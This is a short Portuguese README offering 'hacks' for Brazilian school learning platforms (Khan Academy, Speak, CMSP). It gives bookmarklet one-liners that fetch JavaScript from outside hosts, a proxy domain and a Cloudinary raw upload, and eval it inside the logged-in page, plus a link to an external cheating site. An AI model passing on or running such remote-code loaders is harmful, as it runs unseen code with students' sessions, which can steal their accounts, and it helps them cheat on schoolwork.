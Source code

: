# Leia com atenção
### **Esses hacks não funciona em rede nacional (por exemplo:SEDUC_TABLET, SEDUC_MAQ entre outras)**


Khan academy 

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

SPeak (não funcionando)

javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))


CMSP(não faz redação nem redasp)

https://cmspcheeto.squareweb.app/
